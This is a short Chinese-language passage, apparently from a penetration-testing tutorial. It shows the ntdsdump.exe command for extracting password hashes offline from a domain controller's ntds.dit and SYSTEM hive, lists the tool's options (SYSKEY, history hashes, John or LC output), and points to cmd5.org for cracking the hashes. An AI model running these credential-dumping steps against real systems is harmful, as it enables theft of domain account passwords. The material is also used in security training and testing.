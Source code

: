 之后可以使用ntdsdump进行离线提取Hash:

ntdsdump.exe -f ntds.dit -s SYSTEM

# [参数说明：](#toc__1)

ntdsdump.exe <-f ntds.dit> <-k HEX-SYS-KEY | -s system.hiv> \[-o out.txt\] \[-h\] \[-t JOHN|LC\] \* -f ntds.dit路径 \* -k 可选的十六进制格式的SYSKEY \* -s 可选的system.hiv路径 \* -h 导出历史密码记录 \* -t 导出格式，LC或JOHN \* -o 导出到指定文件中 \*  
[![image.png](assets/1698894155-518840b77b481cc2da8a539594941ba7.png)](https://storage.tttang.com/media/attachment/2022/09/30/900d1192-49d5-4d09-ba40-f7998a7f88aa.png)

之后在CMd5解密网站进行解密解密即可：[https://www.cmd5.org/](https://www.cmd5.org/)

[![image.png](assets/1698894155-ac2b690e289c9ecb68271bd1c09a82bb.png)](https://storage.tttang.com/media/attachment/2022/09/30/af0f3da4-5987-4816-bd60-796b85826d38.png)
